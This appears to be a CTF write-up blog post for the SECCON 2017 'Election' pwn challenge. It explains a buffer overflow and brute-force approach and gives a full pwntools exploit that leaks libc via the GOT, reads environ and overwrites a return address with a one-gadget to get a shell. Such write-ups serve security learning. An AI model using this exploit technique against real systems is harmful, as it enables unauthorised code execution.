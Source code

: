```yaml
---
layout: post
alias: "/blog/2017/12/10/seccon-2017-quals-election/"
title: "SECCON 2017 Online CTF: Election"
date: "2017-12-10T15:19:36+09:00"
tags: [ "ctf", "writeup", "seccon", "seccon-quals", "pwn", "buffer-overflow", "heap", "bruteforce" ]
"target_url": [ "https://ctftime.org/event/512/" ]
---
```


## solution

BOF and bruteforce.

There are a BOF at re-voting for `Ojima`.
This allows us to write anywhere and read somewhere.
Due to FULL RELRO, it's not the flag yet.
We want to get the libc (or heap) base addr.
But if you read the addr simply, then you lose the ability to write.
Here, you can use brutefoce to fix the head address, using $8192$ expected-trials, and get the flag.

## note

[zeosutt](https://twitter.com/zeosutt) and others read the binary and found base solution, and I made the flag using the brute-force attack.
I was faster a little, but he noticed the *neat* solution to get a head address.

## implementation

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='election.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=28349, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./election')
parser.add_argument('--libc', default='libc-2.23.so')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)
libc = ELF(args.libc)

def solve(p):
    def add(addr, value):
        p.sendlineafter('>> ', '2')
        p.sendlineafter('Show candidates? (Y/n) ', 'n')
        p.sendlineafter('candidate.\n>> ', 'Oshima')
        p.sendlineafter('re-vote?\n>> ', 'yes'.ljust(0x20, '\0') + p64(addr - 0x10) + chr(value))
    def write(addr, s):
        for i, c in enumerate(s):
            for value in [ ord(c) / 2, (ord(c) + 1) / 2 ]:  # to avoid to be nagative
                if value:
                    add(addr + i, value)

    heap_base = 0x0162b000  # fixed
    # heap_base = input()
    # log.info('heap base: %#x', heap_base)

    # make a candidate structure, whose name is `got.__libc_start_mai` and next_candidate is the `list`
    p.sendlineafter('>> ', '1')
    p.sendlineafter('name.\n>> ', '\0')
    write(heap_base + 0xf0, p64(elf.got['__libc_start_main']) + p64(heap_base + 0x90))
    add(elf.symbols['list'], 0x20)
    log.info('%#x', elf.got['__libc_start_main'])

    # read the libc base
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('Candidates:\n* ')
    libc_base = u64(p.recvline()[: -1].ljust(8, '\0')) - libc.symbols['__libc_start_main']
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('libc base: %#x', libc_base)

    # read the environ
    write(heap_base + 0x10, p64(libc_base + libc.symbols['environ'] - (heap_base + 0x30)))
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('* Shinonome\n* ')
    environ = u64(p.recvline()[: -1].ljust(8, '\0'))
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('environ: %#x', environ)
    ret_addr = environ - 240
    log.info('return addr: %#x', ret_addr)

    # attack
    one_gadget = 0xf1117
    write(ret_addr, p64(one_gadget - (libc.symbols['__libc_start_main'] + 240)))
    p.sendlineafter('>> ', '0')

    time.sleep(1)
    p.sendline('id')

for iteration in range(10000):
    log.info('iteration: %d', iteration)
    try:
        with remote(args.host, args.port) as p:
            solve(p)
            p.interactive()
            break
    except EOFError:
        pass

```
